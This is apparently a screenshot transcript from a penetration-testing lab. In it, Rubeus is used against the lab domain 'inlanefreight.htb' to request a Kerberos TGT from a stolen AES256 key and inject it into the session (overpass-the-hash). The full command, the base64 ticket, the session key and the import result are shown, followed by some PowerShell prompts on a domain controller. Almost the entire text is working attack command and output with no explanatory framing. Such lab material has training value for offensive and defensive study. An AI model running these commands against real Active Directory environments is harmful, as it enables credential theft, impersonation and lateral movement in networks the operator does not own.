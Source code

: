 ```batch
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.3

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\john'
[*] Using domain controller: 10.129.203.120:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
      ZWZyZWlnaHQuaHRi
[+] Ticket successfully imported!

  ServiceName              :  krbtgt/inlanefreight.htb
  ServiceRealm             :  INLANEFREIGHT.HTB
  UserName                 :  john
  UserRealm                :  INLANEFREIGHT.HTB
  StartTime                :  7/18/2022 5:44:50 AM
  EndTime                  :  7/18/2022 3:44:50 PM
  RenewTill                :  7/25/2022 5:44:50 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  5VdAaevnpxx/f9rXsDDLfK6tH+4qQ3f1GlOB1ClBWh0=
  ASREP (key)              :  9279BCBD40DB957A0ED0D3856B2E67F9BB58E6DC7FC07207D0763CE2713F11DC
```


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname